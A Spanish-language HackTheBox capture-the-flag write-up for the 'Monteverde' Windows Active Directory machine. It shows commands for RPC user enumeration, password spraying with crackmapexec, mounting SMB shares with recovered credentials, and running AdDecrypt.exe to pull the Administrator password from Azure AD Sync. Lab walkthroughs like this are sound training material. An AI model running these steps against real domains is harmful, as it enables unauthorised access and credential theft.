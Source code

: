 ```yaml
---
title:  "Monteverde Writeup [ES] - HackTheBox"
date:   2022-02-16 13:00:00 -0300
categories: [HTB]
toc: true
comments: false
tags: [easy, windows, active-directory, azure]
image:
  src: /images/HTB/Monteverde/00-banner.png
  width: 620
  height: 410
---
```


# Resumen

[Monteverde](https://app.hackthebox.com/machines/223) es una máquina **Windows** de dificultad media de la plataforma de [Hack The Box](https://app.hackthebox.com/), incluye conceptos de explotación de Azure AD Sync y enumeración básica.

Se iniciará obteniendo información desde el servicio RPC para enumerar los usuarios del sistema, con los cuales es posible obtener credenciales válidas haciendo un password spray con CrackMapExec. Posteriormente se escalará a un usuario con mayores privilegios al descubrir credenciales en un archivo .xml. Desde aquí se podrá elevar a privilegios de Administrador explotando Azure AD Sync.

![Info](/images/HTB/Monteverde/01-info.png)

# Enumeración

## Rustscan - NMAP

Como siempre, se iniciará realizando un escaneo general de los 65535 puertos. En este caso se utilizará [Rustscan](https://github.com/RustScan/RustScan), proporcionando comandos de nmap para realizar el escaneo desde un one-liner.

* ```rustscan 10.10.10.172 -- -sC -sV | tee services.nmap```

```plaintext
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.10.172:53
Open 10.10.10.172:88
Open 10.10.10.172:135
Open 10.10.10.172:139
Open 10.10.10.172:389
Open 10.10.10.172:445
Open 10.10.10.172:464
Open 10.10.10.172:593
Open 10.10.10.172:636
Open 10.10.10.172:3268
Open 10.10.10.172:3269
Open 10.10.10.172:5985
Open 10.10.10.172:9389
Open 10.10.10.172:49667
Open 10.10.10.172:49673
Open 10.10.10.172:49674
Open 10.10.10.172:49676
Open 10.10.10.172:49696
Open 10.10.10.172:49962
```
Desde el output podemos obtener que los servicios: ```LDAP```, ```RPC```, ```SMB```, ```WinRM``` y ```Kerberos``` se encuentran abiertos, los cuales son ideales para comenzar la enumeración. 


## SMB

Comenzando con el servicio ```SMB```, se intenta enumerar información adicional con una autenticación de usuario y contraseña *null*.

![](/images/HTB/Monteverde/02-smb.png)

No es posible enumerar recursos compartidos sin credenciales válidas, pero se obtiene el dominio: **MEGABANK.LOCAL**.

## RPC

Con la ayuda de **rpcclient**, podemos listar información sin necesidad de autenticación. En este caso enumeraremos los usuarios con ```enumdomusers```.

![](/images/HTB/Monteverde/10-rpc-enumdomusers.png)

Y filtraremos el resultado para guardar los usuarios en el archivo ```users.txt```

```bash
rpcclient -U '' 10.10.10.172 -N -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x' | tr -d '[]' > users.txt
```
* users.txt

![](/images/HTB/Monteverde/15-users.txt.png)

# Usuario - SABatchJobs

Ya en tenencia de usuarios válidos del sistema, lo primero que se intenta es un ataque ```asreproast```. Se ejecuta con las herramientas ```crackmapexec``` y ```GetNPUsers``` respectivamente.

![](/images/HTB/Monteverde/20-asreproast.png)

Al no tener éxito con este método, y como buena práctica, podríamos realizar un password spraying con los usernames obtenidos anteriormente, de tal manera de utilizar cada username como usuario y contraseña en cada combinación.

```bash
cme smb 10.10.10.172 -u users.txt -p users.txt
```
![](/images/HTB/Monteverde/25-password-spray.png)

```plaintext
SABatchJobs:SABatchJobs
```

# Usuario - mhope

Ahora que poseemos credenciales, intentamos nuevamente listar recursos compartidos por **SMB**. Se identifican dos directorios interesantes: **azure_uploads** y **users$**.


![](/images/HTB/Monteverde/30-smb-shares.png)

Entramos a **azure_uploads** y se observa vacío.


![](/images/HTB/Monteverde/33-smb-azure.png)

En el caso del recurso **users$** vemos directorios para cuatro usuarios.


![](/images/HTB/Monteverde/36-smb-users.png)

En lugar de revisar cada uno desde ```smbmap``` u otra herramienta, haremos una montura de todo **users$** en nuestra máquina local. Posteriormente listaremos todo el contenido de manera recursiva con ```tree```.

```bash
mount -t cifs -o username='SABatchJobs',password='SABatchJobs' //10.10.10.172/users$ /mnt/monteverde
```
![](/images/HTB/Monteverde/39-smb-mount.png)

Dentro del directorio **mhope** se encuentra el archivo ```azure.xml``` que contiene una contraseña en texto claro.

* azure.xml

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

```plaintext
mhope:4n0therD4y@n0th3r$
```

# Administrator

Una vez logueados como el usuario ```mhope``` descubrimos que pertenece al grupo **Azure Admins**.

![](/images/HTB/Monteverde/45-net-users-mhope.png)

Adicionalmente, se detecta el servicio **ADSync** ejecutándose en la máquina.

![](/images/HTB/Monteverde/50-services.png)

## Azure AD Sync

Efectuando una búsqueda rápida en internet, encontramos un [post](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/) en donde se detalla un método de abusar el servicio **Azure AD Sync** para obtener credenciales de ciertos usuarios. Todo lo necesario se encuentra en el [repositorio de github](https://github.com/VbScrub/AdSyncDecrypt), en donde deberemos descargar ```AdDecrypt.zip``` y subir su contenido a la máquina víctima.

![](/images/HTB/Monteverde/55-sync-files.png)

Posteriormente se debe ir al directorio ```C:\Program Files\Microsoft Azure AD Sync\Bin``` y ejecutar ```AdDecrypt.exe```:

```powershell
C:\Users\mhope\Documents\my_files\AdDecrypt.exe -FullSQL
```

Inmediatemente obtendremos las credenciales del usuario **Administrator**.

![](/images/HTB/Monteverde/60-admin-pass.png)

Y como último paso, entraremos por **WinRM** y listaremos las flags para ingresarlas en la plataforma.

![](/images/HTB/Monteverde/65-admin-login.png)


Esto sería todo para [Monteverde](https://app.hackthebox.com/machines/223).

![](/images/HTB/Monteverde/100-pwned.png)

> ¡Happy Hacking and keep grinding!

# Más información

* [https://blog.xpnsec.com/azuread-connect-for-redteam/](https://blog.xpnsec.com/azuread-connect-for-redteam/)
* Ippsec - [https://www.youtube.com/watch?v=HTJjPZvOtJ4](https://www.youtube.com/watch?v=HTJjPZvOtJ4)
* S4vitaar - [https://www.youtube.com/watch?v=eY8Sk4pnvOI](https://www.youtube.com/watch?v=eY8Sk4pnvOI)


